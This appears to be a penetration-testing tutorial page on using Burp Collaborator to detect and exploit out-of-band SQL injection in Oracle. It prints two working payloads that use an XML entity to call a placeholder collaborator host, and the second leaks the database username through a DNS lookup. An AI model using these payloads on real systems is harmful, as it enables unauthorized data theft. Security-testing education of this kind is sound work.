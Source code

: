 ***

## Collaborator <a href="#bkmrk-c2-a0-0" id="bkmrk-c2-a0-0"></a>

Burp collaborator is only available on the Professional version. It is useful to test for DNS interaction received from the web application server.

### **Example use case: Out-of-Band SQL Injection (OOB SQLi)**

When we identified a OOB SQLi vulnerability on the application, we can use the Burp Collaborator to verify and extract database information.

Firstly, the payload that we will use in this use-case scenario is:

```sql
x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

Then we need to replace [http://BURP-COLLABORATOR/](http://burp-collaborator/) with our Collaborator address. We can get the address from the Collaborator tab.

<figure><img src=".gitbook/assets/VzXocXLpN6wLVpF4-image.png" alt=""><figcaption></figcaption></figure>

Our final request will look like this:

<figure><img src=".gitbook/assets/QVKZ23Dg1eeuiric-image.png" alt=""><figcaption></figcaption></figure>

After sending the request, we can see Collaborator has received a few DNS interactions.

<figure><img src=".gitbook/assets/B1FQN9k7a1zoJjcr-image.png" alt=""><figcaption></figcaption></figure>

To extract data from the database, we can use this payload:

```sql
x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT user FROM dual)||'.BURP-COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

The '||(SELECT user FROM dual)||' part of the payload will be appended to the collaborator address, hence leaking the database user to the collaborator.

After sending the request, we can see in the Collaborator tab that we have received a DNS lookup along with the database username.

<figure><img src=".gitbook/assets/coajWy1slP7PD0Bn-image.png" alt=""><figcaption></figcaption></figure>
